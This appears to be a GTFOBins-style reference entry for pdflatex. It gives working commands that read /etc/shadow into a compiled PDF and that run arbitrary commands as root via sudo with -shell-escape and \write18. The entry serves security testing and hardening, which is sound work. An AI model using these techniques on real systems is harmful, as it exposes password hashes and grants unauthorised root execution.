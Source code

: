 description: `pdflatex` is a symbolic link to [`pdftex`](/gtfobins/pdftex/). However the program does not have the same behaviour regarding the name of argv[0]. This is the same behaviour for [`xetex`](/gtfobins/xetex/)/[`xelatex`](/gtfobins/xelatex/).
functions:
  file-read:
    - code: |
        echo "\documentclass[12pt]{article} \usepackage{verbatim} \hfuzz=25.002pt \begin{document} \verbatiminput{/etc/shadow} \end{document}" > read.tex
        latex read.tex
        #/etc/shadow is in read.pdf
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \immediate\write18{/usr/bin/whoami} \end{document}" > file.tex
        sudo pdflatex -shell-escape file.tex

